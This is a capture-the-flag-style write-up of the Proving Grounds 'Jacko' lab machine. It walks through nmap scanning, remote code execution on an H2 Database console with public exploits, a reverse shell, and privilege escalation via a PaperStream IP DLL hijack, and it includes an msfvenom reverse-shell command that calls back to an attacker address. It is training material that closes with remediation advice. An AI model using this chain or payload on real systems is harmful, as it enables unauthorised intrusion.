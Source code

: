 ```yaml
---
layout: writeup
title: Jacko - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Jacko Box from Proving Grounds
image: # /assets/images/Jacko/Jacko1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, LainKusanagi]
---
```


Today I'm doing a writeup for a [Proving Grounds](https://www.offsec.com/labs/) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Jacko, and it is rated Intermediate by Proving Grounds and Hard by the community. As usual, we get started with an nmap (`sudo nmap -A -sC -v -p- --open 192.168.245.66 -oN nmap`) which (gives more detail but) shows these open ports:

```
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
8082/tcp  open  blackice-alerts
9092/tcp  open  XmlIpcRegSvc
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```


I check out port 80 which shows documentation for an app called H2 Database Engine:

![Jacko1.png](/assets/images/Jacko/Jacko1.png){: .center-aligned width="600px"}

I click around to look for a version, but I can't find one. From reading about it a little bit, it looks like a way to manage/use an SQL database using the browser. I can also check port 8082, and it looks like that may be where the actual app is hosted. Port 80 may just be docs. 

![Jacko2.png](/assets/images/Jacko/Jacko2.png){: .center-aligned width="600px"}

If I try to exploit the app, it may need to be done here on this port. I do note that when I click `Test Connection`, it does say "Test successful." So it's set up. And I didn't need to add a password. When I searched exploit-db for potential exploits for "H2 Database", I see a couple of interesting ones. [This](https://www.exploit-db.com/exploits/44422) one even has a default user of "sa" and default password of "", so that points to us being able to use `sa: ` for creds, as shown already in the screenshot. I copy this exploit to my machine and attempt to run it, but I get an error:

![Jacko3.png](/assets/images/Jacko/Jacko3.png){: .center-aligned width="600px"}

It was basically the same for [this](https://www.exploit-db.com/exploits/45506) one from exploit-db and [this](https://gist.githubusercontent.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed/raw/152ffcd996497e01cfee1ceb7237375f1a1e72f2/h2-exploit.py) on from github, which appears to have been built off the former. But if we go back to port 8082 and try to actually connect, we can see that even though the connection is already established, we are taken to a portal:

![Jacko4.png](/assets/images/Jacko/Jacko4.png){: .center-aligned width="600px"}


That explains how we are able to use [this exploit](https://www.exploit-db.com/exploits/49384) which at first glance appeared to require to be executed locally on the target machine. That linked exploit from exploit-db gives three commands to run consecutively, with the last one executing a `whoami` command as a test. The result:

![Jacko5.png](/assets/images/Jacko/Jacko5.png){: .center-aligned width="600px"}

The service is being run as `jacko\tony`. We can use this to download a reverse shell and run it. Simply using nc to call our kali machine does not appear to work as the target cannot find the nc.exe file. Note that the file must be written to a writable directory, such as `C:\Users\tony\rev.exe`, but that in this case the `\`'s must be escaped, making the full path `C:\\Users\\tony\\rev.exe`. You can tell this because if you leave them out, you get an error saying there are too many arguments. If you try a number of other commands to get more information and see that the `\` mis removed in some of them in the output. 

![Jacko6.png](/assets/images/Jacko/Jacko6.png){: .center-aligned width="600px"}

We have a shell. It quickly becomes clear that we cannot run some commands as-is but need to call the full path i.e. `C:\Windows\System32\whoami.exe` instead of `whoami`. I check my privileges with the `/priv` flag and see that we have `SeImpersonatePrivilege`, but I am not able to run a Potato attack such as PrintSpoofer:

![Jacko7.png](/assets/images/Jacko/Jacko7.png){: .center-aligned width="600px"}

I transfer and run winpeas.exe at this point, but there's nothing that especially sticks out. At that point it makes sense to look around and see if there is anything interesting. There are a couple of unusual applications in the `Program Files (x86)` directory: 

![Jacko8.png](/assets/images/Jacko/Jacko8.png){: .center-aligned width="600px"}

It looks like fiScanner provides functionality for scanning documents which could potentially have some kind of exploit, but I don't find any. PaperStream IP is driver software for a scanner, and it does have a public [Local Privesc exploit](https://www.exploit-db.com/) on exploit-db. The exploit tells you how to generate a dll file and where to put it before running the exploit. 

![Jacko9.png](/assets/images/Jacko/Jacko9.png){: .center-aligned width="600px"}

We should also note that it is a powershell script (`.ps1`), either from looking at it or using searchsploit to copy it to our directory and noting the extension. Powershell is not located in the same directory as the other commands, so to enable it you must call the full path like so: `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` Then you can run powershell commands. Unfortunately, when I run the `.ps1`, it does not do anything. This is because the msfvenom script suggested is for a 64-bit machine, and the target is a 32-bit machine. The msfvenom script should actually be: `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.240 LPORT=445 -f dll -a x86 --platform windows -o 445.dll`. When we transfer that to the `C:\Windows\Temp` directory as before. 

![Jacko10.png](/assets/images/Jacko/Jacko10.png){: .center-aligned width="600px"}

### Lesson Learned
Apparently in cases like this where we have to call the full path, we can just set the path by running: `set PATH=%SystemRoot%\system32;%SystemRoot%;`. I probably should have known there was a way to do that. 

### Remediations Steps
- Add a password to the H2 Database user
- Patch the H2 Database application
- Patch the PaperStream application
- Consider disabling the `SeImpersonatePrivilege` for user:`tony` if not required. I didn't wind up using it, but I did find a writeup that did (along with a meterpreter shell). [That writeup](https://medium.com/@Dpsypher/proving-grounds-practice-jacko-d42c9c1e7f9e) used GodPotato to get a shell that died multiple times, but I tried with SweetPotato and PrintSpoofer and did not get any kind of response. 